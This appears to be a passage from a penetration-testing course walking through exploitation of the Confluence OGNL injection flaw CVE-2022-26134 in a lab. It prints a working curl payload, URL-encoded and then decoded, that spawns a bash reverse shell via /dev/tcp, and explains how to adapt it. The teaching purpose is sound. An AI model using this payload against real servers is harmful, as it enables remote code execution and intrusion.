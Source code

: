 ## 19.2.2. Setting Up the Lab Environment

To gain access to CONFLUENCE01, we need to leverage the command execution vulnerability in the Confluence web application to get a reverse shell. After discovering that the Confluence web application is vulnerable to CVE-2022-26134, we'll find a blog post from [_Rapid7_](https://www.rapid7.com/blog/post/2022/06/02/active-exploitation-of-confluence-cve-2022-26134/) that includes a [_cURL_](https://curl.se/) command containing a [_proof-of-concept_](https://en.wikipedia.org/wiki/Proof_of_concept) payload that claims to exploit the vulnerability and return a reverse shell.

```
curl -v http://10.0.0.28:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/10.0.0.28/1270%200%3E%261%27%29.start%28%29%22%29%7D/
```

> Listing 1 - The example payload from the Rapid7 blog post.

We don't run payloads without understanding exactly what they do, so we first need to figure out what's happening in this proof-of-concept.

The verbose (**\-v**) **curl** request is being made to **http://10.0.0.28:8090**, which we assume is the blogpost author's vulnerable Confluence server. After this, the URL [_path_](https://en.wikipedia.org/wiki/Uniform_Resource_Identifier#Syntax) looks more interesting. We observe that a lot of the characters in it are [_URL encoded_](https://en.wikipedia.org/wiki/Percent-encoding), so we need to _URL decode_ them to get a clearer sense of what the payload actually does.

You can quickly URL decode strings by selecting _Decode As..._ > _URL_ in the _Decoder_ tab in [_Burp_](https://portswigger.net/burp), or using an online tool such as [_CyberChef_](https://gchq.github.io/CyberChef/) If working with sensitive information in a real corporate environment, you should avoid pasting data into online tools. However, in this case we're decoding a proof-of-concept that's already public, so we can use online tools if necessary.

After URL decoding the path, the function of the payload is clearer.

```
/${new javax.script.ScriptEngineManager().getEngineByName("nashorn").eval("new java.lang.ProcessBuilder().command('bash','-c','bash -i >& /dev/tcp/10.0.0.28/1270 0>&1').start()")}/
```

> Listing 2 - The example payload URL-decoded.

The URL path is an _OGNL injection_ payload. OGNL is [_Object-Graph Notation Language_](https://en.wikipedia.org/wiki/OGNL), an expression language commonly used in Java applications. OGNL injection can take place when an application handles user input in such a way that it gets passed to the OGNL expression parser. Since it's possible to execute Java code within OGNL expressions, OGNL injection can be used to execute arbitrary code.

The OGNL injection payload itself uses Java's [_ProcessBuilder_](https://docs.oracle.com/javase/7/docs/api/java/lang/ProcessBuilder.html) class to spawn a _Bash_ interactive reverse shell (_bash -i_).

This proof-of-concept payload is almost perfect for our needs. However, we need to modify it before we can use it. This is for two reasons. First, the Confluence server that the payload is pointing to in the original payload is not where our vulnerable Confluence server is. Second, the Bash reverse shell payload is pointing at port 1270 on 10.0.0.28, which is not where our Kali machine is. We need to modify these parameters in the payload before we can reuse it to exploit CONFLUENCE01 and return a shell to our own Kali machine.
